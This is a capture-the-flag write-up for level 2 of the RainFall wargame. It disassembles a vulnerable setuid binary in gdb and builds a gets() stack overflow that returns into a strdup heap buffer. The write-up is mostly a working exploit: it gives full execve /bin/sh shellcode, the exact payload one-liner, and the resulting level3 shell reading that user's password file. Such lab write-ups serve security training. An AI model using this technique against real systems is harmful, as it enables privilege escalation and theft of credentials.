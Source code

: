 # Level 2

- We login as user level2:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2

level2@RainFall:~$ gdb level2
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
```
>`0x8049860 <stdout@@GLIBC_2.0>: 0xb7fd1a20`

>>Call `<fflush@plt>`.


```
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```
>buffer starts at `-0x4c(%ebp)`

>>Prompt the user without imposing any input size limit.


```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```
>`0x4(%ebp) --> 0xbffff70c`

>`0xbffff70c: 0x0804854a`

>`saved eip 0x804854a`

>>After receiving the input, if the return address of the function starts with `0xb`, we will call `<printf@plt>` and then `<_exit@plt>`. Otherwise, we jump to `<puts@plt>`.


```
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
```
>`0x8048620: "(%p)\n"`

>`-0xc(%ebp) --> 0xbffff70c`

>`0xbffff70c: 0x0804854a`

>`saved eip 0x804854a`

>>Print the function return address.


```
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
```
>>Call `exit(1)`


```
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
```
>buffer starts at `-0x4c(%ebp)`

>>Print the buffer


```
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```
>buffer starts at `-0x4c(%ebp)`

>>Copy the buffer into the heap.


- To redirect the program's execution flow, the function must `return`, so we must avoid `<_exit@plt>`.


- We are looking to replace the return address of the function with an address that contains our shellcode. However, we cannot store our shellcode in the environment or in the stack of the `p()` function because these addresses all start with `0xb`.
```
(gdb) info reg
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...
```

```
(gdb) x/3s *(char**)environ
0xbffff8f5:      "SHELLCODE=1\322Rh//shh/bin\211\343\061\300\260\v̀"
0xbffff915:      "TERM=xterm-256color"
0xbffff929:      "SHELL=/bin/bash"
```


- `0xc0000000` to `0xffffffff` is reserved for the kernel, attempting to access it would result in a segmentation fault.


- So, we need a way to write our shellcode into much lower addresses, such as in the heap at the memory address returned by `<strdup@plt>`.
```
(gdb) b*0x0804853d
Breakpoint 1 at 0x804853d
```

```
(gdb) r < <(echo 123)
...
Breakpoint 1, 0x08048538 in p ()

(gdb) x/s $eax
0x804a008:      "123"
```


- The input should thus be in the form of `(NOP's) + SHELLCODE + (FILLER) + \x08\xa0\x04\x08`. The question now is how many characters are needed for the return address of the `p()` function to start being overwritten. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).


- The return address is found to be replaced after the 80th character. We would be tempted to do this:
```
(gdb) r < <(python -c "print '\x90'*53 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x08\xa0\x04\x08'"; cat)
```


- However, we would have an issue because of this:
```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```


- Indeed, this part of the code copies the return address value from the function a little further down in the stack. This would have the effect of overwriting a portion of our shellcode. Therefore, we must leave a small space, precisely 16 bytes:
```
level2@RainFall:~$ (python -c "print '\x90'*37 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*16 + '\x08\xa0\x04\x08'"; cat) | ./level2
...
whoami
level3

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```